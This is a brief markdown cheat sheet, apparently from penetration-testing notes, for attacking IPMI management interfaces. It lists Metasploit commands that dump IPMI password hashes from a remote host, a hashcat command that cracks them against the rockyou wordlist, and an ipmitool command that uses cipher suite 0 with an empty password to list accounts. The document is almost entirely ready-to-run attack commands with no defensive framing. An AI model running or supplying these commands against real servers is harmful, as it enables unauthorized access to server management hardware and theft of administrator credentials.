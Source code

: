 
## Dump Hashes

```bash
sudo msfconsole -q
use auxiliary/scanner/ipmi/ipmi_dumphashes
set RHOST x.x.x.x
set USER_FILE users.txt
set OUTPUT_HASHCAT_FILE ipmi.hashcat
```

### Crack with Hashcat

```bash
hashcat -m 7300 ipmi.hashcat /opt/rockyou.txt --username
```

## List of Users

```bash
ipmitool -I lanplus -C 0 -H 192.168.0.145 -U admin -P "" user list | ipmi_list.txt
```

